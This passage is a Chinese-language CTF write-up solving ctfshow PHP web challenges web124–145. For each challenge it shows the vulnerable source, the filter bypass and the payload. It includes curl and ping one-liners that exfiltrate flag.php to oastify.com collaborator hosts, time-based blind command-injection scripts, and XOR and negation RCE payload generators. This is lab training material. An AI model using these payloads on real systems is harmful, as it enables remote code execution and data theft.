# @Last Modified time: 2020-09-07 22:02:47
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/
error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
$a=$_SERVER['argv'];
$c=$_POST['fun'];
if(isset($_POST['CTF_SHOW'])&&isset($_POST['CTF_SHOW.COM'])&&!isset($_GET['fl0g'])){
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\%|\^|\*|\-|\+|\=|\{|\}|\"|\'|\,|\.|\;|\?/", $c)&&$c<=18){
         eval("$c".";");  
         if($fl0g==="flag_give_me"){
             echo $flag;
         }
    }
}
?>
```

我们要POST提交一个CTF_SHOW和CTF_SHOW.COM

因为有eval再，我们可以直接echo $flag

但是注意，如果直接CTF_SHOW.COM的话，"."这个符号会被替换（php变量名中不能出现.）


根据替换的规则

被get或者post传入的变量名，如果含有空格、+、[则会被转化为_，如果传入[，它被转化为_之后，后面的字符就会被保留下来不会被替换,所以 . 可以保留

而且这是 PHP 内核**硬编码**的行为，

```
CTF_SHOW=1&CTF[SHOW.COM=2&fun=echo $flag
```



这样就可以得到flag了

```
ctfshow{c63b0730-d8fa-46d0-8805-ae537f15ac2b}
```


### web125

#### get_defined_vars()

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Firebasky
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
#
#
*/
error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
$a=$_SERVER['argv'];
$c=$_POST['fun'];
if(isset($_POST['CTF_SHOW'])&&isset($_POST['CTF_SHOW.COM'])&&!isset($_GET['fl0g'])){
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\%|\^|\*|\-|\+|\=|\{|\}|\"|\'|\,|\.|\;|\?|flag|GLOBALS|echo|var_dump|print/i", $c)&&$c<=16){
         eval("$c".";");
         if($fl0g==="flag_give_me"){
             echo $flag;
         }
    }
}
?>
```

增加了对c的过滤

测试发现可以用所以就

CTF_SHOW=1&CTF[SHOW.COM=2&fun=var_export(get_defined_vars())

`get_defined_vars()` 会返回**当前作用域内所有已定义变量**的关联数组（变量名 ⇒ 值）

get_defined_vars()返回由所有已定义变量所组成的数组



```
ctfshow{a5b63854-ab91-417f-b9f9-377c2467758d}
```


### web126

#### parse_str变量覆盖

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Firebasky
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
#
#
*/
error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
$a=$_SERVER['argv'];
$c=$_POST['fun'];
if(isset($_POST['CTF_SHOW'])&&isset($_POST['CTF_SHOW.COM'])&&!isset($_GET['fl0g'])){
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\%|\^|\*|\-|\+|\=|\{|\}|\"|\'|\,|\.|\;|\?|flag|GLOBALS|echo|var_dump|print|g|i|f|c|o|d/i", $c) && strlen($c)<=16){
         eval("$c".";");  
         if($fl0g==="flag_give_me"){
             echo $flag;
         }
    }
}
```

加了对字母gifcod的禁止


我们使用变量覆盖，但是extract不能用

**用parse_str**

将字符解析成多个变量

$a=$_SERVER['argv']，用来获取命令行参数。


这里a是传入argv的一个参数，被当做一个数组传入进去，数组他是以空格进行分割的，比如ls /-a，（斜杠前面有个空格），ls就是argv[0],/-a就是argv[2],+会解析为空格

所有只需要传入我们要的参数等他覆盖就好了




```
?a=1+fl0g=flag_give_me

CTF_SHOW=1&CTF[SHOW.COM=2&fun=parse_str($a[1])
```


```
ctfshow{3ac85582-b94e-478a-b6d7-c5c96e8760e3}
```


### web127

#### 绕过 _

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-10 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-10 21:52:49

*/


error_reporting(0);
include("flag.php");
highlight_file(__FILE__);
$ctf_show = md5($flag);
$url = $_SERVER['QUERY_STRING'];


//特殊字符检测
function waf($url){
    if(preg_match('/\`|\~|\!|\@|\#|\^|\*|\(|\)|\\$|\_|\-|\+|\{|\;|\:|\[|\]|\}|\'|\"|\<|\,|\>|\.|\\\|\//', $url)){
        return true;
    }else{
        return false;
    }
}

if(waf($url)){
    die("嗯哼？");
}else{
    extract($_GET);
}


if($ctf_show==='ilove36d'){
    echo $flag;
}
```


当前页面 URL 中的查询字符串部分赋值给变量 `$url`

然后要过滤上面的字符,从而让extract函数变量覆盖

ctf_show=ilove36d

但是_有被过滤，所以我们通过加空格（空格会被替换为_）



```
?ctf show=ilove36d
```

```
ctfshow{dec13fcd-8f97-4a66-95ad-62c1cc18b61d}
```


### web128

#### call_user_func函数

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-10 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-12 19:49:05

*/


error_reporting(0);
include("flag.php");
highlight_file(__FILE__);

$f1 = $_GET['f1'];
$f2 = $_GET['f2'];

if(check($f1)){
    var_dump(call_user_func(call_user_func($f1,$f2)));
}else{
    echo "嗯哼？";
}


function check($str){
    return !preg_match('/[0-9]|[a-z]/i', $str);
} NULL
```

call_user_func — 把第一个参数作为回调函数调用

为了让if条件成立,f1中不能有数字，字母，但是f1也要是个函数

看了看payload

_()==gettext() 是gettext()的拓展函数，开启text扩展



在当前域中查找信息

f2我们可以用get_defined_vas,返回所有已知变量的数组

（因为有call_user_func在我们就不用加括号，f1，f2会被直接调用）

**_()==gettext()** 是gettext()的拓展函数，开启text扩展

在当前域中查找信息


f2我们可以用get_defined_vas,返回所有已知变量的数组

（因为有call_user_func在我们就不用加括号，f1，f2会被直接调用）

```
?f1=_&f2=get_defined_vars
```



```
ctfshow{dc644a85-8535-4605-bb2d-1162b1d7f0e0}
```


### web129 

**stripos函数加readfile**

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-13 03:18:40

*/


error_reporting(0);
highlight_file(__FILE__);
if(isset($_GET['f'])){
    $f = $_GET['f'];
    if(stripos($f, 'ctfshow')>0){
        echo readfile($f);
    }
}
```

stripos函数





那就是要找到flag.php

```
?f=/ctfshow/../var/www/html/flag.php
```






### web130


```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-13 05:19:40

*/


error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
if(isset($_POST['f'])){
    $f = $_POST['f'];

    if(preg_match('/.+?ctfshow/is', $f)){
        die('bye!');
    }
    if(stripos($f, 'ctfshow') === FALSE){
        die('bye!!');
    }

    echo $flag;

}
```

preg_match('/.+?ctfshow/is', $f)这个前缀不能有别的东西

```
stripos($f, 'ctfshow')
```

然后必须包含ctfshow




```
ctfshow{8507294d-902b-4ff2-ab5b-3281b6c37065}
```


### web131


```c++
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-13 05:19:40

*/


error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
if(isset($_POST['f'])){
    $f = (String)$_POST['f'];

    if(preg_match('/.+?ctfshow/is', $f)){
        die('bye!');
    }
    if(stripos($f,'36Dctfshow') === FALSE){
        die('bye!!');
    }

    echo $flag;

}
```

把传进来的f转换为字符串，ctfshow中前面没有东西，第3个这个参数必须是36Dctfshow/。

所以联想到

在php中正则表达式进行匹配有一定的限制，超过限制直接返回false

```python
官方的payload：
echo str_repeat('very', '250000').'36Dctfshow';

python
import requests
 
url = "http://55318217-bebc-45d6-84cc-47894e6f00bf.challenge.ctf.show/"
 
s = '666' * 333333 + '36dctfshow'
print(len(s))
data = dict(f=s)
response = requests.post(url, data=data).text
 
print(response)
```



```
ctfshow{2911da39-a9a7-4710-8079-1dfa646344f6}
```


### web132


后台扫描 /robots.txt ，再访问/admin,得到原码



```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 06:22:13
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-13 20:05:36
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

#error_reporting(0);
include("flag.php");
highlight_file(__FILE__);


if(isset($_GET['username']) && isset($_GET['password']) && isset($_GET['code'])){
    $username = (String)$_GET['username'];
    $password = (String)$_GET['password'];
    $code = (String)$_GET['code'];

    if($code === mt_rand(1,0x36D) && $password === $flag || $username ==="admin"){
        
        if($code == 'admin'){
            echo $flag;
        }
        
    }
}
```

m_rand生成一个随机数但是我们可以看到四个符号的优先级从高到低分别是： &&、||、and、or

x && y 当x为false时，直接跳过，不执行y； x||y 当x为true时，直接跳过，不执行y

所以我们只需要让username=admin就行了


其他的随意

```
?username=admin&password=admin&code=admin
```



```
ctfshow{f5382e76-abf6-4b37-ba19-77942b089653}
```


### web133


```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Firebasky
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-13 16:43:44

*/

error_reporting(0);
highlight_file(__FILE__);
//flag.php
if($F = @$_GET['F']){
    if(!preg_match('/system|nc|wget|exec|passthru|netcat/i', $F)){
        eval(substr($F,0,6));
    }else{
        die("6个字母都还不够呀?!");
    }
}
```

分析了一下代码发现只能读取前面6个字符去执行命令

禁止了命令执行的函数，并且没有写入权限。可能利用就比较可能
但是，如果我们传递的参数就是`$F`本身，会不会发生变量覆盖？


六个字符显然不能构造出什么，但是如果我们传入的就是 $F 本身呢？

比如传入：?F=`$F `;sleep 3


观察发现页面确实存在延时，说明 sleep 3 执行成功了

**前 6 字节 ``$F `;` 把 $F 再次扔进 shell，shell 解析到后面的 `;sleep 3`，于是实现了 3 秒延迟。**

这里使用 burpsuite 的 Collaborator Client 结合 curl -F 命令外带 flag：


这个模块说实话我也是第一次用，先随机获取一个域名：



```
y32aemdtyye91ds6i1pjam7tckib61uq.oastify.com
```

构造 payload：

```
?F=`$F`;+curl -X POST -F xx=@flag.php  http://y32aemdtyye91ds6i1pjam7tckib61uq.oastify.com


对 payload 的一些解释：

-F 为带文件的形式发送 post 请求；

其中 xx 是上传文件的 name 值，我们可以自定义的，而 flag.php 就是上传的文件 ；

相当于让服务器向 Collaborator 客户端发送 post 请求，内容是flag.php。
```





```
得到flag

ctfshow{b3164815-311e-4f62-b0c2-ff9dc403dc80}
```

这个就是dnslog一样的外带数据


这里还可以直接命令执行：

```
?F=`$F`; curl http://7dlviqq1kp7fyuu27x61yqbyepkh8cw1.oastify.com/`ls`


?F=`$F`; curl http://5lrtqoyzsnfd6s20fvez6ojwmnsfg94y.oastify.com/`cat flag.php|grep ctfshow`
```


### web134


```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Firebasky
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-14 23:01:06

*/

highlight_file(__FILE__);
$key1 = 0;
$key2 = 0;
if(isset($_GET['key1']) || isset($_GET['key2']) || isset($_POST['key1']) || isset($_POST['key2'])) {
    die("nonononono");
}
@parse_str($_SERVER['QUERY_STRING']);
extract($_POST);
if($key1 == '36d' && $key2 == '36d') {
    die(file_get_contents('flag.php'));
}
```

如果通过 GET 或 POST 请求中设置了 key1 或 key2，脚本将停止执行并输出 "nonononono"。

```
@parse_str($_SERVER['QUERY_STRING']);

```

解析查询字符串并将变量提取到当前作用域中，@ 用于抑制可能的错误。

```
extract($_POST);
```

将 POST 请求中的参数提取为局部变量，这就可能会覆盖已有变量的值，例如 $key1 和 $key2。


exp

```
?_POST[key1]=36d&_POST[key2]=36d

_POST 是 PHP 里的 超全局数组 名字。
_POST[key1]
“在 HTTP 请求体里放一对 key1=36d 的 POST 字段。”
```

解析后，会将 $_POST['key1'] 和 $_POST['key2'] 赋值为 36d；
由于 extract($_POST)，这两个 POST 参数会被提取为局部变量 $key1 和 $key2；
这样就能使 $key1 和 $key2 都等于 36d，从而通过最后的条件检查。






```
ctfshow{6244f2fa-8d5f-48fa-bdd6-d28da999981d
```


### web135

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Firebasky
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-16 18:48:03

*/

error_reporting(0);
highlight_file(__FILE__);
//flag.php
if($F = @$_GET['F']){
    if(!preg_match('/system|nc|wget|exec|passthru|bash|sh|netcat|curl|cat|grep|tac|more|od|sort|tail|less|base64|rev|cut|od|strings|tailf|head/i', $F)){
        eval(substr($F,0,6));
    }else{
        die("师傅们居然破解了前面的，那就来一个加强版吧");
    }
}
```


这个题目可写

```
?F=`$F`; nl f*>1.txt

?F=`$F`; cp flag.php 2.txt

?F=`$F`; mv flag.php 3.txt
```



也可以采用 DNS 外带的方法，payload：

```
?F=`$F`;+ping `nl flag.php|awk 'NR==15'|tr -cd 'a-zA-Z0-9-'`.mf5ak5sgm49u09wh9c8g05ddg4mxatyi.oastify.com
```

用 nl 命令为 flag.php 文件中的每一行添加行号；

用 awk 命令选择第 15 行（flag 在多少行是需要不断尝试出来的）；

tr -cd 'a-zA-Z0-9-' 这个命令会删除所有不是字母、数字、减号的内容，原本

flag 分为了两段，flag1 和 flag2，拼接起来，字母都改成小写字母，添加上大括号即可。

```
ctfshow{1dcaeacb-6623-4f27-9fea-f76a952935c5}
```


### web136

#### 读写绕过

```php
<?php
error_reporting(0);
function check($x){
    if(preg_match('/\\$|\.|\!|\@|\#|\%|\^|\&|\*|\?|\{|\}|\>|\<|nc|wget|exec|bash|sh|netcat|grep|base64|rev|curl|wget|gcc|php|python|pingtouch|mv|mkdir|cp/i', $x)){
        die('too young too simple sometimes naive!');
    }
}
if(isset($_GET['c'])){
    $c=$_GET['c'];
    check($c);
    exec($c);
}
else{
    highlight_file(__FILE__);
}
```

在 PHP 中，exec、system 和、passthru 都是用来调用外部 Linux 命令的函数，但它们还是有区别的：

（1）system()

用于执行外部程序；
输出命令的执行结果到标准输出设备，并返回命令的最后一行结果；
可以通过传递第二个参数来捕获命令执行后的返回状态码。

（2）passthru()

用于执行外部程序；
将命令的原始输出直接发送到标准输出设备（通常是浏览器）；
不返回任何值，但可以通过第二个参数捕获命令执行后的返回状态码。

（3）exec()

用于执行外部程序；
不会输出结果到标准输出，而是将最后一行结果作为返回值返回；
如果传入第二个参数（数组），可以将所有输出保存到这个数组中；
第三个参数是一个整数变量，用于捕获命令执行后的返回状态码。

我们可以将结果重定向到某个文件，然后再访问对应的文件，但是这里 > 被过滤了，我们可以使用 tee 命令来实现类似的功能，tee 命令可以将命令的输出写入到标准输出的同时写入到一个文件中，payload：

```
?c=ls|tee 1
```




发现这个目录下没有flag

之后经过测试

我们直接

```
ls /|tee 2
```



```
f149_15_h3r3
```





```
ctfshow{6ccb0276-3d6c-4b2f-bd24-b619176ebaa8}
```


### web137

#### call_user_func

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-16 22:27:49

*/

error_reporting(0);
highlight_file(__FILE__);
class ctfshow
{
    function __wakeup(){
        die("private class");
    }
    static function getFlag(){
        echo file_get_contents("flag.php");
    }
}


call_user_func($_POST['ctfshow']);
```

在 php 中，-> 用于访问类的实例成员（属性和方法），我们需要先实例化类，然后通过实例对象来调用其成员；而 :: 用于访问类的静态成员（静态属性和静态方法）和常量，静态成员属于类本身，而不是任何具体实例，因此不需要实例化类即可调用它们。

直接调用 ctfshow 这个类下的 getFlag 函数，payload：


```
ctfshow=ctfshow::getFlag
```





```
ctfshow{2dcc78f6-575c-469f-8e60-974d0025e417}
```


### web138

#### call_user_func

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-16 22:52:13

*/

error_reporting(0);
highlight_file(__FILE__);
class ctfshow
{
    function __wakeup(){
        die("private class");
    }
    static function getFlag(){
        echo file_get_contents("flag.php");
    }
}

if(strripos($_POST['ctfshow'], ":")>-1){
    die("private function");
}

call_user_func($_POST['ctfshow']);
```

比上面多了一个

strripos() 函数用于查找字符串在另一字符串中最后一次出现的位置（不区分大小写），这里相当于就是对提交内容过滤掉了冒号。

**对于 call_user_func 我们还可以通过数组来传递**，payload：

```
ctfshow[0]=ctfshow&ctfshow[1]=getFlag
```

ctfshow[0]=ctfshow：数组的第一个元素是字符串 "ctfshow"，表示类名。
ctfshow[1]=getFlag：数组的第二个元素是字符串 "getFlag"，表示类的静态方法名。


调用 **strripos** 时，如果第一个参数是数组，PHP 将会返回 null，因为 strripos 期望第一个参数是字符串类型，所以不会触发 die("private function");。

call_user_func($_POST['ctfshow']); 将解析为 call_user_func(['ctfshow', 'getFlag']);，这将静态调用 ctfshow::getFlag() 方法。

```
post提交
ctfshow[0]=ctfshow&ctfshow[1]=getFlag
```



```
ctfshow{96baef96-6c07-42f1-918c-450707dc2099}
```


### web139

#### 时间盲注攻击

```php
<?php
error_reporting(0);
function check($x){
    if(preg_match('/\\$|\.|\!|\@|\#|\%|\^|\&|\*|\?|\{|\}|\>|\<|nc|wget|exec|bash|sh|netcat|grep|base64|rev|curl|wget|gcc|php|python|pingtouch|mv|mkdir|cp/i', $x)){
        die('too young too simple sometimes naive!');
    }
}
if(isset($_GET['c'])){
    $c=$_GET['c'];
    check($c);
    exec($c);
}
else{
    highlight_file(__FILE__);
}
?>
```

尝试写入看看有没有权限，好像并没有什么鸟用。没有写的权限，

看了脚本才发现是时间盲注

通过时间盲注攻击获取文件名，逐行、逐列地测试字符，并根据请求是否超时来确定正确的字符，每找到一个字符就添加到 result 中，最终打印出完整的结果。

先列出根目录：

```python
import requests
import time
import string
 
str = string.ascii_letters + string.digits + '_~'  #构造一下这个62+2，大小写加数字+_~;
result = ""
 
for i in range(1, 10):  # 行
    key = 0
    for j in range(1, 15):  # 列
        if key == 1:
            break
        for n in str:
            # awk 'NR=={0}'逐行输出获取
            # cut -c {1} 截取单个字符
            payload = "if [ `ls /|awk 'NR=={0}'|cut -c {1}` == {2} ];then sleep 3;fi".format(i, j, n)
            # print(payload)
            url = "http://2150bfa9-5de9-47bf-833a-dac6a405f625.challenge.ctf.show/?c=" + payload
            try:
                requests.get(url, timeout=(2.5, 2.5))#如果 2.5 秒内连不上服务器，或者连上以后 2.5 秒内没收到任何数据，都会抛出异常
            except:
                result = result + n
                print(result)
                break
            if n == '~':
                key = 1
                result += " "
 
print("Final result:", result)
```

最后会得到


发现存在名为 f149_15_h3r3 的文件，读取：

```python
import requests
import time
import string
str=string.digits+string.ascii_lowercase+"-"
result=""
key=0
for j in range(1,45):
    print(j)
    if key==1:
        break
    for n in str:
        payload="if [ `cat /f149_15_h3r3|cut -c {0}` == {1} ];then sleep 3;fi".format(j,n)
        #print(payload)
        url="http://2150bfa9-5de9-47bf-833a-dac6a405f625.challenge.ctf.show/?c="+payload
        try:
            requests.get(url,timeout=(2.5,2.5))
        except:
            result=result+n
            print(result)
            break
```

由于时间问题就不去弄了。


### web140

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-17 12:39:25

*/

error_reporting(0);
highlight_file(__FILE__);
if(isset($_POST['f1']) && isset($_POST['f2'])){
    $f1 = (String)$_POST['f1'];
    $f2 = (String)$_POST['f2'];
    if(preg_match('/^[a-z0-9]+$/', $f1)){
        if(preg_match('/^[a-z0-9]+$/', $f2)){
            $code = eval("return $f1($f2());");
            if(intval($code) == 'ctfshow'){
                echo file_get_contents("flag.php");
            }
        }
    }
}

```

正则表达式要求 f1 和 f2 只能是数字和小写字母，$f2() 被视为一个函数调用，$f1 作为函数名调用 $f2() 的返回值，最后进行弱比较，由于 'ctfshow' 转换为整数是 0，因此条件实际上是检查 intval($code) 是否为 0

```
那么 $code 就有很多的情况：

（1）字母开头的字符串

字符串形式的字母或数字（如 "a", "b123", 等），在 PHP 中，任何以字母开头的字符串在转换为整数时通常会被视为 0。

（2）空字符串 "" 和 "0"：在转换为整数时也是 0。

（3）空数组：空数组 array() 在转换为整数时会被视为 0。

（4）整数 0：直接返回整数 0。

（5）布尔值 false：布尔值 false 在转换为整数时会被视为 0。
```


payload:

```
f1=system&f2=system   # 布尔值 false
f1=md5&f2=phpinfo   # 字母开头的字符串 如果 GET 传参 f1=md5&f2=phpinfo

f1=usleep&f2=usleep   # usleep() 没有返回值，调用 usleep() 将导致 eval() 返回 null。当 null 传递给 intval() 时，返回值是 0。
```


```
f1=md5&f2=phpinfo

return md5(phpinfo());
md5(1)
```



查看源代码



```
ctfshow{8831af95-cc9d-49c5-98ca-2aebd4d8b26c}
```


### web141

#### 取反加url编码绕过

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-17 19:28:09

*/

#error_reporting(0);
highlight_file(__FILE__);
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
    $v1 = (String)$_GET['v1'];
    $v2 = (String)$_GET['v2'];
    $v3 = (String)$_GET['v3'];

    if(is_numeric($v1) && is_numeric($v2)){
        if(preg_match('/^\W+$/', $v3)){
            $code =  eval("return $v1$v3$v2;");
            echo "$v1$v3$v2 = ".$code;
        }
    }
}
```

要求 v1 和 v2 是数字，检查 v3 是否只包含非单词字符（非字母、非数字、非下划线），且长度大于零，将 $v1 和 $v2 作为操作数，$v3 作为操作符，构建一个表达式，并使用 eval() 执行它，最后输出表达式及其结果。


```
在 php 里数字和一些命令进行运算后也是可以让命令执行的，比如 1-phpinfo(); 是可以执行 phpinfo() 命令的，那么我们这里可能构造出命令的地方就是在 v3 了，再在 v3 前后加上运算符即可，这里采用取反的方法：
```

```
<?php
echo urlencode(~'system');
echo "\n".urlencode(~'ls');
?>
```



```
%8C%86%8C%8B%9A%92
%93%8C
```



```
?v1=1&v2=1&v3=-(~%8C%86%8C%8B%9A%92)(~%93%8C)-

- 只是早期最直观、最简短的“括号”写法；
```

读取到了有flag所以我们直接去tac flag.php

```
<?php
echo urlencode(~'system');
echo "\n".urlencode(~'tac flag.php');
?>


%8C%86%8C%8B%9A%92
%8B%9E%9C%DF%99%93%9E%98%D1%8F%97%8F
```


```
?v1=1&v2=1&v3=-(~%8C%86%8C%8B%9A%92)(~%8B%9E%9C%DF%99%93%9E%98%D1%8F%97%8F)-
```



```
ctfshow{1c134817-4839-465a-8a1c-437ed1334fd9}
```


### web142


```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-17 19:36:02

*/

error_reporting(0);
highlight_file(__FILE__);
if(isset($_GET['v1'])){
    $v1 = (String)$_GET['v1'];
    if(is_numeric($v1)){
        $d = (int)($v1 * 0x36d * 0x36d * 0x36d * 0x36d * 0x36d);
        sleep($d);
        echo file_get_contents("flag.php");
    }
}
```

要求 v1 是数字，之后将 v1乘以 0x36d（即[16进制](https://so.csdn.net/so/search?q=16进制&spm=1001.2101.3001.7020)的869）五次，然后将结果转换为整数并赋值给变量 $d，使用 sleep 函数使程序休眠 $d 秒，最后读取flag.php文件的内容并输出到浏览器。

那直接传 0 呗，不然乘出来都太大了

```
?v1=0
```





```
ctfshow{cf60be16-0d77-4658-abea-acc8062325b7}
```


### web143

#### 异或绕过

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-18 12:48:14

*/

highlight_file(__FILE__);
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
    $v1 = (String)$_GET['v1'];
    $v2 = (String)$_GET['v2'];
    $v3 = (String)$_GET['v3'];
    if(is_numeric($v1) && is_numeric($v2)){
        if(preg_match('/[a-z]|[0-9]|\+|\-|\.|\_|\||\$|\{|\}|\~|\%|\&|\;/i', $v3)){
                die('get out hacker!');
        }
        else{
            $code =  eval("return $v1$v3$v2;");
            echo "$v1$v3$v2 = ".$code;
        }
    }
}
```

和之前的差不多，但是过滤了取反和增过滤加减、取反、或，我们可以使用乘除号代替加减号，取反、或不能使用我们还可以采用异或运算构造 payload。

```php
<?php
 
//或
function orRce($par1, $par2){
    $result = (urldecode($par1)|urldecode($par2));
    return $result;
}
 
//异或
function xorRce($par1, $par2){
    $result = (urldecode($par1)^urldecode($par2));
    return $result;
}
 
//取反
function negateRce(){
    fwrite(STDOUT,'[+]your function: ');
 
    $system=str_replace(array("\r\n", "\r", "\n"), "", fgets(STDIN));
 
    fwrite(STDOUT,'[+]your command: ');
 
    $command=str_replace(array("\r\n", "\r", "\n"), "", fgets(STDIN));
 
    echo '[*] (~'.urlencode(~$system).')(~'.urlencode(~$command).');';
}
 
//mode=1代表或，2代表异或，3代表取反
//取反的话，就没必要生成字符去跑了，因为本来就是不可见字符，直接绕过正则表达式
function generate($mode, $preg='/[0-9]/i'){
    if ($mode!=3){
        $myfile = fopen("rce.txt", "w");
        $contents = "";
 
        for ($i=0;$i<256;$i++){
            for ($j=0;$j<256;$j++){
                if ($i<16){
                    $hex_i = '0'.dechex($i);
                }else{
                    $hex_i = dechex($i);
                }
                if ($j<16){
                    $hex_j = '0'.dechex($j);
                }else{
                    $hex_j = dechex($j);
                }
                if(preg_match($preg , hex2bin($hex_i))||preg_match($preg , hex2bin($hex_j))){
                    echo "";
                }else{
                    $par1 = "%".$hex_i;
                    $par2 = '%'.$hex_j;
                    $res = '';
                    if ($mode==1){
                        $res = orRce($par1, $par2);
                    }else if ($mode==2){
                        $res = xorRce($par1, $par2);
                    }
 
                    if (ord($res)>=32&ord($res)<=126){
                        $contents=$contents.$res." ".$par1." ".$par2."\n";
                    }
                }
            }
 
        }
        fwrite($myfile,$contents);
        fclose($myfile);
    }else{
        negateRce();
    }
}
generate(2,'/[a-z]|[0-9]|\+|\-|\.|\_|\||\$|\{|\}|\~|\%|\&|\;/i');
//1代表模式，后面的是过滤规则
```

对之前命令执行里的攻击脚本进行一些修改，我们只获取 payload：

```python
# -*- coding: utf-8 -*-
 
def action(arg):
    s1 = ""
    s2 = ""
    with open("rce.txt", "r") as f:
        lines = f.readlines()
        for i in arg:
            for line in lines:
                if line.startswith(i):
                    s1 += line[2:5]
                    s2 += line[6:9]
                    break
    output = "(\"" + s1 + "\"^\"" + s2 + "\")"
    return output
 
while True:
    function_input = input("\n[+] 请输入你的函数：")
    command_input = input("[+] 请输入你的命令：")
    param = action(function_input) + action(command_input)
    print("\n[*] 构造的Payload:", param)
```

这里我们先构造 ("system")("ls") 



```
("%0c%06%0c%0b%05%0d"^"%7f%7f%7f%7f%60%60")("%0c%0c"^"%60%7f")
```

因此我们最终 payload 为：

```
?v1=1&v2=1&v3=*("%0c%06%0c%0b%05%0d"^"%7f%7f%7f%7f%60%60")("%0c%0c"^"%60%7f")*
```



读取flag

```
[+] 请输入你的函数：system
[+] 请输入你的命令：tac flag.php

[*] 构造的Payload: ("%0c%06%0c%0b%05%0d"^"%7f%7f%7f%7f%60%60")("%0b%01%03%00%06%0c%01%07%01%0f%08%0f"^"%7f%60%60%20%60%60%60%60%2f%7f%60%7f")
```





```
ctfshow{2a374ee2-e119-46b9-810a-0b6d98ac31a3}
```


### web144

#### 异或绕过

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-18 16:21:15

*/

highlight_file(__FILE__);
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
    $v1 = (String)$_GET['v1'];
    $v2 = (String)$_GET['v2'];
    $v3 = (String)$_GET['v3'];

    if(is_numeric($v1) && check($v3)){
        if(preg_match('/^\W+$/', $v2)){
            $code =  eval("return $v1$v3$v2;");
            echo "$v1$v3$v2 = ".$code;
        }
    }
}

function check($str){
    return strlen($str)===1?true:false;
}
```

检查 $v1 是否是数字，并且 $v3 是否是单个字符（通过调用 check($v3) 函数进行检查），check 函数检查字符串长度是否为 1，$v2 要求只包含非字母数字字符。

那么让中间的 v3 为运算符即可，直接用上一题异或的方法，传参位置不同罢了：

payload：

```
?v1=1&v2=("%0c%06%0c%0b%05%0d"^"%7f%7f%7f%7f%60%60")("%0b%01%03%00%06%0c%01%07%01%0f%08%0f"^"%7f%60%60%20%60%60%60%60%2f%7f%60%7f")&v3=-
```


```
ctfshow{fc247071-f919-4da6-a947-f2a24198b65c}
```


### wbe145

#### 取反绕过

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-18 17:41:33

*/


highlight_file(__FILE__);
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
    $v1 = (String)$_GET['v1'];
    $v2 = (String)$_GET['v2'];
    $v3 = (String)$_GET['v3'];
    if(is_numeric($v1) && is_numeric($v2)){
        if(preg_match('/[a-z]|[0-9]|\@|\!|\+|\-|\.|\_|\$|\}|\%|\&|\;|\<|\>|\*|\/|\^|\#|\"/i', $v3)){
                die('get out hacker!');
        }
        else{
            $code =  eval("return $v1$v3$v2;");
            echo "$v1$v3$v2 = ".$code;
        }
    }
}
```

这里过滤的是异或，我们采用或、取反都可以，加减乘除都被过滤，可以用位或运算符 |。

这里采用取反的方法，payload：

```
